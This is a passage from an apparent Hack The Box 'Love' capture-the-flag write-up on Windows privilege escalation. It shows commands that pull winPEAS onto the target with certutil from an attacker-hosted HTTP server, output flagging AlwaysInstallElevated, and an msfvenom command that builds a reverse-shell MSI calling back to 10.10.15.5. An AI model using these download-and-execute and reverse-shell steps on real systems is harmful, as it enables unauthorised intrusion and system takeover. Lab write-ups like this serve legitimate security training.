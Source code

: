 ```text
HTTP request sent, awaiting response... 200 OK
Length: 1919488 (1.8M) [application/octet-stream]
Saving to: ‘winPEASx64.exe’
winPEASx64.exe                      100%[=====================================================================>]   1.83M  2.85MB/s    in 0.6s    
2021-07-31 23:40:01 (2.85 MB/s) - ‘winPEASx64.exe’ saved [1919488/1919488]

┌──(root💀kali)-[~/htb/love]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

With the script staged we can pull it across and run it:

```text
c:\Users\Phoebe\Desktop>certutil -urlcache -f http://10.10.15.5/winPEASx64.exe winpeas.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\xampp\htdocs\omrs\images>winpeas.exe cmd > output.txt
```

## Always Install Elevated

The output is very long, but the colouring helps you spot the important parts. On this box we are interested in this section:

```text
͹ Checking AlwaysInstallElevated
<C8>  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

There is information [here](https://ed4m4s.blog/privilege-escalation/windows/always-install-elevated) on how to exploit this.

## MSFVenom Payload

First we need a payload to create a reverse shell:

```text
┌──(root💀kali)-[~/htb/love]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.5 LPORT=443 -f msi -o shell.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```

Now pull that over to the box and run it:
